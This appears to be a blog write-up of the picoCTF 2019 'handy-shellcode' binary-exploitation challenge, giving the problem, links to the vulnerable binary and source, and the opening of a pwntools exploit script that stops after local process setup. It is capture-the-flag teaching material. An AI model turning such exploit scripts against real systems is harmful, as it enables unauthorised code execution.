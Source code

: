 ```yaml
---
title: "PicoCTF 2019 Writeup: Binary Exploitation"
date: 2019-10-12T00:00:01+08:00
draft: false
tags: [
  "ctf",
  "cyber-security",
  "write-up",
  "picoctf",
  "pwn"
]
description: solves for picoCTF 2019 Binary Exploitation challenges
---
```


# handy-shellcode

## Problem

This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/handy-shellcode/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/handy-shellcode/vuln.c)

## Solution

The solution is basically the same as the [shellcode](/blog/posts/picoctf-2018-writeup/binary-exploitation/#shellcode)  challenge from last year (click the link for my writeup on that).

Here's the exploit script that I used: 

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
```
